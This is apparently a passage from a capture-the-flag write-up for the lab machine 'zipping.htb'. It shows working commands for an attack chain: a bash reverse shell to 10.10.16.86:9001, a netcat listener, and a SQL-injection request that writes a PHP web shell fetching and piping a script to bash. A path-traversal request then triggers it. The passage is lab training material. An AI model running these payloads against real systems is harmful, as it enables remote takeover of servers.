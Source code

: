 ```

```

SUCESSFULL TEST OUTPUT

```

HTTP/1.1 302 Found
Date: Mon, 06 Nov 2023 18:17:41 GMT
Server: Apache/2.4.54 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: index.php?page=cart
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

```


Now the way to trigger the reverse shell and put it on the machine was like this:

- Create the reverse shell:
```
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.86/9001 0>&1'" > rev.sh
```

- Listen with python server 
```
sudo python3 -m http.server 80
```

- Listen on your machine with netcat 
```
nc -lvnp 9001
```

- Upload a file to the machine 
```
curl -s $'http://zipping.htb/shop/index.php?page=product&id=%0A\'%3bselect+\'<%3fphp+system(\"curl+http%3a//10.10.16.86/rev.sh|bash\")%3b%3f>\'+into+outfile+\'/var/lib/mysql/reverse.php\'+%231'
```

We create a file with the content `<?php system("curl http://10.10.10.10/rev.sh|bash");?>` and  we save it on the folder `/var/lib/mysql/ `  with the name  `reverse.php`  

- Trigger the reverse shell
```
curl -s $'http://zipping.htb/shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2freverse'
```

This last step is when we trigger the reverse shell we make a petition to the /var/lib/mysql/reverse.


# Root:
